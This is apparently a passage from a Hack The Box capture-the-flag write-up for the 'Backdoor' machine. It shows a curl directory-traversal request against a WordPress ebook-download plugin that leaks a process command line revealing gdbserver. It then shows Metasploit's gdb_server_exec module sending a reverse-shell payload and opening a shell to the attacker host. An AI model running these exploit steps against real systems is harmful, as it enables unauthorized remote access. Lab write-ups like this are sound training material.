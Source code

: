 ```bash

curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php\?ebookdownloadurl\=../../../../../../../proc/971/cmdline -o- | tr '\000' ' ' | cut -c115- | sed 's/<script>*.//g'

n/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done indow.close()</script>

```
gbdserver is a tool used to facilitate debugging of programs running on a remote target

## Exploiting gdbserver 

To exploit gdbserver but i will use metasploit:

```bash
msf6 > search gdb

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/multi/gdb/gdb_server_exec               2014-08-24       great      No     GDB Server Remote Payload Execution
   1  exploit/linux/local/ptrace_sudo_token_priv_esc  2019-03-24       excellent  Yes    ptrace Sudo Token Privilege Escalation


Interact with a module by name or index. For example info 1, use 1 or use exploit/linux/local/ptrace_sudo_token_priv_esc

msf6 > use 0
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) >
```

I’ll set the rhosts, rport, and lhost and the target to x86_64 :

and we get the shell : 

```bash

msf6 exploit(multi/gdb/gdb_server_exec) > run

[*] Started reverse TCP handler on 10.10.14.6:4444 
[*] 10.10.11.125:1337 - Performing handshake with gdbserver...
[*] 10.10.11.125:1337 - Stepping program to find PC...
[*] 10.10.11.125:1337 - Writing payload at 00007ffff7fd0103...
[*] 10.10.11.125:1337 - Executing the payload...
[*] Command shell session 1 opened (10.10.14.6:4444 -> 10.10.11.125:58140 )

id
uid=1000(user) gid=1000(user) groups=1000(user)
```
